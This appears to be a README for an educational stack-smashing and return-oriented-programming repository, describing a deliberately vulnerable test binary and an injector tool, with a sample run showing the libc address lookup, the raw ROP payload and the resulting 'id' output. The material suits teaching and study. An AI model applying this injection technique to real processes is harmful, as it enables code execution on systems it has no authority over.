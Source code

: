 Original paper from Benjamin Randazzo <benjamin@linuxcrashing.org>
with source code transcripted for convenience.

There are also two test programs:

 - ``vuln``: a simple buffer overflow compiled without ``pie``
 - ``injecter``: a program that inject a ``ROP`` payload that executes the ``id`` command

Usage:

     $./injecter ./vuln
     [+] just forked pid 7887
     [+] forked './vuln'
     [>] Please enter your code: 
     [press RETURN key to continue] if you want to debug the injection attach it from gdb
    cmd: cat /proc/7887/maps | grep '/lib/i386-linux-gnu/i686/cmov/libc-2.19.so' | grep r-xp | cut --field=1 --delimiter='-'
     [+] libc base address: 0xf7526000
     [+] libc .data address: 0xf76cd040
     [<] AAAAAAAAAAAAAAAAAAAAAAAADCBA�7a�����/usr@�l�_;U��7a�����/binD�l�_;U��7a�����//idH�l�_;U��7a���������L�l�	^i�_;U�,�R�,�R�,�R�,�R�,�R�,�R�,�R�,�R�_;U��7a�����@�l�P�l�_;U��7a�T�l�P�l�����LOU�,�R�,�R�,�R�,�R�,�R�,�R�,�R�,�R�,�R�,�R�,�R���S�@�l��EU�
     [>] uid=1000(packz) gid=1000(packz)

It's also possible to create an environment with

    $ sudo docker build --tag=smash-the-stack .
    $ sudo docker run -i -t smash-the-stack /bin/bash

# Link

 - http://www.shell-storm.org/blog/Return-Oriented-Programming-and-ROPgadget-tool/
 - http://tk-blog.blogspot.fr/2009/02/relro-not-so-well-known-memory.html
 - http://xorl.wordpress.com/2010/10/14/linux-glibc-stack-canary-values/
